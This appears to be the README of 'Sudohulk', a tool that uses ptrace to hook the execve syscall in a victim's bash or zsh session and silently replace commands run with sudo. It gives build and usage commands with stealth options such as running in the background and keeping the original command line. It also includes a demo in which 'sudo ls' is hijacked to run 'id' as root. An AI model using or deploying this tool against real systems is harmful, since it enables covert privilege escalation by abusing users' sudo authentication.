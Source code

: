 # Sudohulk

This tool change sudo command, hooking the execve syscall using ptrace, tested under bash and zsh

## supported architectures:

- [x] x86_64
- [x] x86
- [x] arm

## How use:

```
$ make
cc -Wall -Wextra -O2 -c -o bin/sh_remotedata.o src/sh_remotedata.c
cc -Wall -Wextra -O2 -c -o bin/sh_string.o src/sh_string.c
cc -Wall -Wextra -O2 -c -o bin/sudohulk.o src/sudohulk.c
cc -Wall -Wextra -O2 -o sudohulk bin/sh_remotedata.o bin/sh_string.o bin/sudohulk.o
$ ./sudohulk 
sudohulk [-qdk] PID COMMAND [ARGS]

Options:
   -q quit when change a command
   -d run in background
   -k keep original command line (appending to new)
```
## NOTES:

PID = bash or zsh pid

To attach the current session use -d option, example:

```
$ ./sudohulk -qd $$ id
running in background, pid:20899
$ sudo ls -lah
[sudo] senha para mmxm: 
uid=0(root) gid=0(root) grupos=0(root)
```

## Demo
[![asciicast](https://asciinema.org/a/159627.png)](https://asciinema.org/a/159627)
